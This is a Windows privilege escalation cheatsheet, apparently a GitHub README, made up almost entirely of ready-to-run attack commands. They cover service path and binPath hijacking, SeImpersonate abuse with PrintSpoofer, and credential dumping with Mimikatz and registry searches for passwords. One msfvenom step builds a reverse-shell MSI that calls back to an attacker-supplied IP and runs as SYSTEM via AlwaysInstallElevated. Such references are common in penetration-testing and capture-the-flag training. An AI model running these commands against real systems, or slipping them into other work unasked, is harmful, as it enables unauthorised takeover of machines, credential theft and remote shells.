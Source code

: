 # Windows Privilege Escalation Cheatsheet 🚀

This cheatsheet provides a quick reference for common tools and commands used to identify and exploit privilege escalation vulnerabilities on Windows systems.

---

## ## 1. Initial Enumeration & Situational Awareness

All privilege escalation begins with understanding the system you are on. **Always start here.**

### ### Manual Enumeration Commands
* **Purpose:** To get a baseline understanding of the user, system, and network.
* **Commands:**
    ```powershell
    # Check current user, groups, and privileges
    whoami /all

    # Get OS version and patch level
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

    # List running processes and their owners
    tasklist /V

    # List configured services
    sc query

    # Check network configuration and listening ports
    netstat -ano
    ```

### ### Automated Enumeration Scripts
* **Purpose:** To automatically scan for a wide range of common misconfigurations and vulnerabilities.
* **Tools & Commands:**
    * **WinPEAS:**
        ```powershell
        # Execute the script and save the colorized output
        .\winPEASx64.exe -quiet -outputfile report.txt
        ```
    * **PowerUp.ps1:**
        ```powershell
        # Import the module and run all checks
        powershell -ep bypass -c ". .\PowerUp.ps1; Invoke-AllChecks"
        ```

---

## ## 2. Service Misconfigurations

This is one of the most common vectors for privilege escalation to **SYSTEM**.

### ### Unquoted Service Paths
* **Purpose:** Find services with paths that contain spaces and are not enclosed in quotes, allowing for hijacking.
* **Command (WMIC):**
    ```powershell
    wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
    ```

### ### Weak Service Permissions
* **Purpose:** Check if a low-privileged user can modify a service that runs with higher privileges.
* **Tools & Commands:**
    * **accesschk.exe (Sysinternals):** Checks permissions for the "Users" group on all services.
        ```powershell
        accesschk.exe /accepteula -uwcqv Users *
        ```
    * **sc.exe (built-in):** If a service is found to be modifiable, reconfigure its binary path to your payload and restart it.
        ```powershell
        # Reconfigure the service to point to your payload
        sc config <service_name> binPath= "C:\tmp\payload.exe"

        # Restart the service to trigger the payload
        sc stop <service_name>
        sc start <service_name>
        ```

---

## ## 3. Credential & Token Abuse

Leveraging stored credentials or abusing user privileges.

### ### Impersonation Privileges (SeImpersonate/SeAssignPrimaryToken)
* **Purpose:** Abuse powerful privileges, often held by service accounts, to impersonate the **SYSTEM** user.
* **Tools & Commands:**
    * **PrintSpoofer:** A reliable tool for exploiting this.
        ```powershell
        # Check for the privilege first
        whoami /priv

        # Use PrintSpoofer to spawn a command prompt as SYSTEM
        PrintSpoofer.exe -i -c cmd.exe
        ```
    * **Juicy Potato / Rotten Potato:** Older tools for the same purpose.

### ### Stored Credentials & Secrets
* **Purpose:** Find saved passwords or hashes in files, the registry, or credential manager.
* **Tools & Commands:**
    * **cmdkey:** Lists credentials saved in the Windows Vault.
        ```powershell
        cmdkey /list
        ```
    * **Mimikatz (Requires Admin):** Dumps credentials from memory.
        ```powershell
        # Get debug rights first
        privilege::debug

        # Dump credentials from the LSA process
        sekurlsa::logonpasswords
        ```
    * **Search for password files:**
        ```powershell
        dir /s /b *pass*.xml *pass*.txt *config* | findstr /i "password"
        reg query HKLM /f password /t REG_SZ /s
        ```

---

## ## 4. Registry Misconfigurations

### ### AlwaysInstallElevated
* **Purpose:** Checks for a policy that allows any user to install `.msi` packages with **SYSTEM** privileges.
* **Command (reg query):**
    ```powershell
    # Check if both registry keys are set to '1'
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
* **Exploitation:**
    ```bash
    # 1. Create a malicious MSI payload with msfvenom
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=4444 -f msi -o malicious.msi

    # 2. Run the installer on the target machine (it will execute as SYSTEM)
    msiexec /quiet /qn /i C:\tmp\malicious.msi
    ```

---

## ## 5. File & Folder Permission Issues

### ### Insecure GUI Applications
* **Purpose:** If you have a low-privilege shell but can interact with a GUI application running as a higher user, you can use the "File -> Open" dialog to browse the file system and execute programs (like `cmd.exe`) with that user's privileges.

### ### Modifiable Scheduled Tasks
* **Purpose:** Find scheduled tasks that run as **SYSTEM** but execute a script or binary that is writable by your user.
* **Tools & Commands:**
    * **schtasks:** List all scheduled tasks and their details.
        ```powershell
        schtasks /query /fo LIST /v
        ```
    * **icacls:** Check the permissions on the target file executed by the task.
        ```powershell
        icacls "C:\Path\To\Task\Executable.exe"
        ```

---

## ## 6. Kernel Exploits

This should be a last resort, as kernel exploits can be unstable.

### ### Windows Exploit Suggester
* **Purpose:** Compares the target system's patch level (`systeminfo`) against a database of known kernel exploits.
* **Tools & Commands:**
    ```bash
    # 1. On the target, get system info
    systeminfo > systeminfo.txt

    # 2. On your attacker machine, run the tool
    python2 windows-exploit-suggester.py --database 2025-09-02-mssb.xls --systeminfo systeminfo.txt
    ```
